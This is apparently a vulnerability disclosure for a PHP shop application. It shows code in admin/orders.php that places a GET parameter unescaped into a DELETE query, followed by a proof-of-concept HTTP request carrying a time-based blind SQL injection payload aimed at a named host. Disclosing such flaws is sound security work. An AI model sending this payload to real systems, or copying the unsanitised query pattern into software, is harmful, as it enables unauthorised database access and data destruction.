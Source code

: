 ### Vulnerability file address

`admin/orders.php` from line 5,The $order_id parameter is controllable, the parameter order_id can be passed through get, and the $order_id is not protected from sql injection, resulting in sql injection

```php
if(isset($_GET['action']) && $_GET['action']!="" && $_GET['action']=='delete')
{
$order_id=$_GET['order_id'];

/*this is delet query*/
mysqli_query($con,"delete from orders where order_id='$order_id'")or die("delete query is incorrect...");
} 
```

### POC

```http
GET /admin/orders.php?action=delete&order_id=bbbb' AND 3916=BENCHMARK(5000000,MD5(0x7748556f))-- hdtf HTTP/1.1
Host: www.onsp.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=acrlvk4ljcqdujn2orbd09in25
Upgrade-Insecure-Requests: 1
```

### Attack results pictures

![image-20220729214016877](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220729214016.png)